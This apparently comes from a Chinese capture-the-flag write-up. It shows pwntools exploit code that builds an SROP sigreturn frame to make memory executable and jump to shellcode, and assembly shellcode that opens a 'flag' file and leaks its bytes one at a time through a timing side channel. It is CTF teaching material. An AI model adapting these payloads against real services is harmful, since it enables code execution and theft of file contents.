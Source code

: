 ```bash
frame = SigreturnFrame()
frame.rdi = 10
frame.rsi = 0x404000
frame.rdx = 0x1000
frame.rcx = 7
frame.rip = syscall
frame.rsp = 0x4041ba
pl = b'\x00'*0x52+p64(rax_15)+p64(syscall2)+bytes(frame)+p64(0x404260)
pl = pl.ljust(0x200,b'\x00')
pl+=shellcode
```

[![](assets/1703640353-cb84c7b377ffc503aedc57af6895fec1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231225192006-8e9f21d8-a317-1.png)  
可以看到这里 ret 就是去执行 shellcode 了，下面只需要把 shellcode 换成侧信道爆破的 shellcode 就行

```bash
shellcode = asm('''
            mov r12,0x67616c66
            push r12
            mov rdi,rsp
            xor esi,esi
            xor edx,edx
            mov al,2
            syscall
            mov rdi,rax
            mov rsi,0x404500
            mov dl,0x40
            xor rax,rax
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
```
